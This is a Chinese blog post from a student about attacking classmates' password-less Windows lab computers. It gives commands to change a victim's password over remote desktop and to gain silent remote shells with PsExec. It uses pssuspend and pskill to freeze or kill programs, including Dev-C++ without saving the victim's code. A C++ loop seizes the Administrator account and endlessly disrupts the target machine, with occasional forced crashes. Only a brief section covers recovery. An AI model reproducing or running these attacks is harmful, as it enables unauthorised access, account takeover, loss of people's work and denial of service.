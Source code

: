 ```yaml
---
author: Duanyll
tags: ["搞事情"]
date: 2018-10-24
title: 论给电脑设密码的重要性——机房惨案的新境界
---
```


昨天颓了半个晚自习研究机房惨案黑科技，感受到了机房电脑不设密码又不开防火墙还不开UAC的巨大风险……

> # **在机房实际运用以下内容可能导致您被教练锤，被同学揍或者是更加严重的后果！**

<!-- more -->

以下内容的前提是对方没设密码

## net user 改密码制造对方断不掉的远程桌面连接

基础：`net user admin fuck`把admin的密码设为`fuck`

1. 把`net user admin fuck`复制到剪贴板里
2. 用远程桌面连你要机惨的人
3. 迅速按下`Win+r`,`Ctrl+v`,`Enter`
4. 然后他除了重启就断不掉链接了，他的电脑上会提示“用户名或密码错误”，但是连密码输入框都不显示，趁机让他在洛谷上AKIOI吧

## psexec 静默打开cmd

1. 去搜索下载一个psexec（SysinternalsSuite里面有）
2. cmd运行`psexec \\他的IP -u admin -s cmd`
3. 提示输入密码，直接回车，如果直接进入他的cmd你就中奖了
4. 你就可以在cmd里面改他的密码，删他的程序，给他的iostream加点料了

## 如果你被搞了

1. 远程桌面型：告诉教练或者揍他
2. psexec型（很难察觉）：迅速`net user admin ""`清除密码，注销重登
3. 没有还原卡：重启按F8，选带命令提示符的安全模式，用上面指令清密码，重启

## 再补充几条

```sh
pssuspend \\stu5-xxx -u admin explorer.exe #卡住他的桌面（可以换成别的程序）
pssuspend \\stu5-xxx -u admin explorer.exe -r #恢复他的桌面
pskill \\stu5-xxx -u admin devcpp.exe #强杀devcpp（不会保存代码）
pspasswd \\stu5-xxx -u admin admin fuck #一键改他的密码
notmyfaultc crash 0x01 #瞬间蓝屏（自己的电脑）
```

pssuspend配合while(true)与sleep效果奇佳。

## 一段振奋人心的代码

请在sysinternals suite里面执行。方便起见，我把主机名写死在代码里了。

```cpp
#include <cstdlib>
#include <iostream>
#include <cstdio>
#include <ctime>
#include <windows.h>

using namespace std;

int main(){
	srand(time(NULL));
	system("psexec \\\\xxx -accepteula -u admin -p \"\" -s net user Administrator /active:yes");
	system("psexec \\\\xxx -accepteula -u admin -p \"\" -s net user Administrator happy");
	while(1){
		Sleep(500);
		switch(rand()%13){
			case 0:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" chrome");
				break;
			case 1:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" devcpp");
				break;
			case 2:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" explorer");
				break;
			case 3:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" taskmgr");
				break;
			case 4:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" chrome -r");
				break;
			case 5:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" devcpp -r");
				break;
			case 6:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" explorer -r");
				break;
			case 7:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" taskmgr -r");
				break;
			case 8:
				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" chrome");
				break;
			case 9:
				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" devcpp");
				break;
			case 10:
				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" explorer");
				break;
			case 11:
				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" taskmgr");
				break;
			case 12:
				int p = rand()%100;
				if(p==0){
					system("pskill \\\\xxx -u Administrator -p \"happy\" -c -d -s notmyfaultc.exe crash 0x01 -accepteula");
				}
				break;
		}
	}
}
```
